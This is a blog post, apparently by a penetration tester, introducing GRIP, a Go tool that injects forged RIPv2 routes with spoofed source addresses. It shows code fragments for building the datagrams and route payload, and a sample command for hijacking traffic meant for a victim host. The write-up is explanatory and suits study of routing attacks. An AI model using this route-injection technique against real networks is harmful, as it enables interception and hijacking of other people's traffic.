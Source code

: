 ```yaml
---
layout: post
published: true
image: /img/IMG_6264.jpg
date: '2019-01-27'
title: GRIP v0.1
subtitle: Go RIP Injection Program
---
```

It has been in my mind for quite some time to learn Golang and write some pentesting-oriented tools lately. I've finally made up my mind and wrote a tool to inject fake RIPv2 routes in a network in Go that I called Golang RIP Injection Program (or GRIP for short). This is still in early development but it already works flawlessly so you can use it.

First things first, let's give credit where credit is due. Most (if not all) of the heavy lifting had already been done by my good friend [Lorenzo Nicolodi](https://www.linkedin.com/in/lorenzo-nicolodi-83a04420/) who explained in [great details](https://microlab.red/2018/04/06/practical-routing-attacks-1-3-rip/) how to perform these kind of attacks against common routing protocols (namely RIPv2, OSPF and BGP). He also owns a [repository](https://github.com/illordlo/exploits/tree/master/routing) where he hosts python code to do so.
<p class="alert alert-info">
    <span class="label label-info">NOTE:</span> Yes, I know that RIPv2 is considered legacy by some and yes, I know my code sucks, I'm not a programmer. But there's still a ton of organizations which use RIPv2 as their internal routing protocol and this code works even though it seems like it was written by a monkey, so deal with it ¯\_(ツ)_/¯
</p>

The [code I wrote](https://github.com/last-byte/GRIP) is fairly commented so it shouldn't need a lot of explanaition. I'll only go through the key parts.

The code starts by setting up some constants and a structure containing the header of the UDP datagram:

```
type udpHeader struct {
  SrcPort  uint16
  DstPort  uint16
  Length   uint16
  Checksum uint16
}
```

I then declared a function called `forgeDatagram()` that will forge the IPv4 datagram. It takes as input  the UDP payload (later created in the main function), the destination IP address and the (eventually forged) source IP address.

<p class="alert alert-warning">
    <span class="label label-warning">CAUTION:</span> since IOS version 15 Cisco started setting as true the <code>valide-update-source</code> option in routers by default. This options prohibits route updates that are not from the same subnet so it's impossible to make the routers accepts routes with spoofed sources unless this option was disabled.
</p>

The function proceeds to create the UDP header by setting the source and destination port and the length of the UDP datagram. As Lorenzo pointed out multiple times in our conversations, RIP is one of the few protocols that actually requires a precise source port and not just a random one:
```
header := udpHeader{
    SrcPort: 520,
    DstPort: 520,
    Length:  uint16(udpHeaderLen + len(data)),
  }
```

After that it appends the payload to the UDP header and then forges the IPv4 header:
```
ipv4Header := &ipv4.Header{
    Version:  ipv4.Version,
    Len:      ipv4.HeaderLen,
    TotalLen: ipv4.HeaderLen + udpHeaderLen + len(data),
    ID:       0x0000,
    Protocol: ipv4Protocol,
    Dst:      dstIP.To4(),
    Src:      srcIP.To4(),
    TTL:	1,
    TOS:	0xc0,
    Flags:	0x4000,
  }
```

Once this is done the function proceeds to convert everything to bytes and pack everything up, returning a valid IPv4 datagram.

The main function is responsible for handling the user input and preparing stuff required for the program to work so I won't bother too much explaining it. One part that needs some explaination is the one responsible for forging the RIPv2 payload:

```
// Prepare input data to be used to create the packet
routeTag := uint16(0)
netAddr := net.ParseIP(*netPtr)
dstAddr := net.ParseIP(*dstPtr)
// Parse subnet mask as uint32
netmask := net.ParseIP(*mskPtr)
netmaskInt := binary.BigEndian.Uint32(netmask[12:16])
metric := uint32(*metPtr)

// Setup the fake route and create the packet
nextHop := net.ParseIP("0.0.0.0")
rtePtr := rip.NewRoute(netAddr, nextHop, netmaskInt, metric, routeTag)
pktPtr := rip.New(2, 2)
pktPtr.Routes = append(pktPtr.Routes, rtePtr)
packet, _ := pktPtr.Pack()
```

Here the programs takes the pointers to the values of the various flags and parses them accordingly to the type needed. It then forges a route using `rip.NewRoute()` using the address of the network, the next hop (set to 0.0.0.0 to signify the route is directly connected) the subnet mask, the metric and the route tag as arguments. After that it creates the UDP payload using the `Pack()` method of the packet. The resulting payload is sent to the aforementioned `forgeDatagram()` function as argument together with the source and destination addresses.

The rest of the program is about setting up the socket and sending the packets through the network so it's not of much interest.

And now it's time for some shitty drawings (y'all've been waiting for this, right?)
This is our scenario:
![attack1]({{site.baseurl}}/img/attack1.jpg)

The attacker wants to hijack packets meant for `10.0.0.100` so he uses GRIP to inject a fake route in the network:
```
$ sudo grip --network 10.0.0.100 --src 172.16.0.100
```
And this is what happens in reality (okay, this may be a bit fictionalized for the sake of simplicity)
![attack2]({{site.baseurl}}/img/attack2.jpg)

The router receives the fake route and advertises it to its neighbours (your friendly neighbour ~~spiderman~~ router)
![attack3]({{site.baseurl}}/img/attack3.jpg)

And obviously now the victim feels the need to connect to 10.0.0.100 and tell him something (those victims have always a perfect timing when it comes to hacking!)
![attack4]({{site.baseurl}}/img/attack4.jpg)




